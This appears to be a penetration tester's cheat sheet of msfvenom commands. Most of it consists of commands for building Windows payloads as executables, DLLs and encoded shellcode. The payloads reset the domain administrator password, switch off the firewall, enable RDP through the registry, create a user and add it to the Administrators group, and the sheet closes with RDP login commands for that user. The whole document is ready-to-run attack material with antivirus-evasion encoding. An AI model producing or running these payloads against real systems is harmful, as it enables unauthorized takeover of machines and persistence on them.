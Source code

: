 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### POC:
```bash - kali
msfvenom -p windows/x64/exec CMD="C:\windows\system32\calc.exe" -f exe > poc.exe
```


```bash - kali
msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Change administrator's password:
```bash - kali
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

#### Disable Firewall:
```bash - kali
msfvenom -p windows/x64/exec CMD="netsh Advfirewall set allprofiles state off" -f exe > disableFirewall.exe
```

```bash - kali
msfvenom -p windows/exec CMD="netsh Advfirewall set allprofiles state off" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Enable RDP:
```bash - kali
msfvenom -p windows/x64/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' -f exe > RDP.exe
```

```bash - kali
msfvenom -p windows/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Create new user:
```bash - kali
msfvenom -p windows/x64/exec CMD="net user foobar Pass123 /add" -f exe > newUser.exe
```

```bash - kali
msfvenom -p windows/exec CMD="net user foobar Pass123 /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Adding new user to admin group:
```bash - kali
msfvenom -p windows/x64/exec CMD="net localgroup Administrators foobar /add" -f exe > add2Admin.exe
```

```bash - kali
msfvenom -p windows/exec CMD="net localgroup Administrators foobar /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

```bash - kali
rdesktop -a 16 -z -u foobar -p Pass123 $KALI
```

```bash - kali
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$KALI
```

```bash - kali
rdesktop -a 16 -z -u foobar -p Pass123 $TARGET
```

```
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$TARGET
```